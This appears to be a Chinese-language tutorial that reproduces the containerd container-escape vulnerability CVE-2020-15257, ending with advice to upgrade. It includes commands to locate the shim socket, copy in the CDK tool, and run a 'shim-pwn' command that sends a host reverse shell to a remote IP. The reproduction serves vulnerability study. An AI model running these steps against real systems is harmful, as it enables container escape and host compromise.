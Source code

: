 # Docker 容器逃逸漏洞 (CVE-2020-15257)复现

## 漏洞概述

`containerd`是行业标准的容器运行时，可作为`Linux`和`Windows`的守护程序使用。在版本`1.3.9`和`1.4.3`之前的容器中，容器填充的`API`不正确地暴露给主机网络容器。填充程序的`API`套接字的访问控制验证了连接过程的有效`UID`为0，但没有以其他方式限制对抽象`Unix`域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效`UID`为0，但特权降低）导致新进程以提升的特权运行。

## 影响版本

	containerd < 1.4.3
	containerd < 1.3.9

## 环境搭建

安装有漏洞的`containerd`版本

这里我使用的版本是`1.2.10`

![640](./resource/Docker 容器逃逸漏洞 (CVE-2020-15257)复现/media/640.png)

## 漏洞复现

通过`--net=host` 作为启动参数来运行一个容器：

```shell
docker run -it --net=host ubuntu:18.04 /bin/bash
```

接着在容器内执行

```shell
cat /proc/net/unix|grep -a "containerd-shim"
```

可看到抽象命名空间`Unix`域套接字

![641](./resource/Docker 容器逃逸漏洞 (CVE-2020-15257)复现/media/641.png)

Poc地址

> https://github.com/Xyntax/CDK/releases/tag/0.1.6

这里为了方便行事，我们下载解压直接把`cdk_linux_amd64`文件拷贝到容器里

```shell
docker cp cdk_linux_amd64 b7bd2b523d72:/tmp
```

![642](./resource/Docker 容器逃逸漏洞 (CVE-2020-15257)复现/media/642.png)

![643](./resource/Docker 容器逃逸漏洞 (CVE-2020-15257)复现/media/643.png)

在容器中执行`exp`，自动搜索可用的`socket`并反弹宿主机的`shell`到远端服务器，完成逃逸

```shell
./cdk_linux_amd64 run shim-pwn 192.168.1.102 6666
```

![644](./resource/Docker 容器逃逸漏洞 (CVE-2020-15257)复现/media/644.png)

## 修复建议

升级  `containerd` 至最新版本。

## 参考

> https://mp.weixin.qq.com/s/ieY90noArcObNgxyV2-sGA